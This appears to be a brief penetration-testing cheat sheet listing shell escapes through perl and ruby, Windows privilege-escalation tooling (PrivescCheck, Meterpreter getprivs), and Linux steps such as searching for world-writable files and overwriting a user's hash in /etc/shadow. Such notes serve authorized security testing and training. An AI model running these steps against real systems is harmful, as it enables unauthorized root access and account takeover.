 If perl is installed: 

    > perl -e 'exec "/bin/bash";'

or:

    > perl: exec "/bin/bash"

If ruby is installed:

    > ruby: exec "/bin/bash"

# Windows Privliege Escalation

- PrivescCheck - Script to enumerate common Windows configuration issues that can be leveraged for local privilege escalation.

- GitHub Repo: https://github.com/itm4n/PrivescCheck

### Meterpreter

    > getprivs

Then run the PrivescCheck script.

# Linux Privliege Escalation

- [LinEnum && linPEAS](#linenum--linpeas)

## Weak Permissions

Enumerate files with weak permissions:

    > find / -not -type l -perm -o+w

How to replace password in shadow file:

    > openssl passwd -1 -salt abc password123

Now copy the hash and paste it to the user that you want to change the password:

    > nano/vim /etc/shadow

## SUDO Privileges

Find what commands user can run:

    > sudo -l

Then find the weaknes according to the binary here: 

- https://gtfobins.github.io

# Persistence

- https://attack.mitre.org
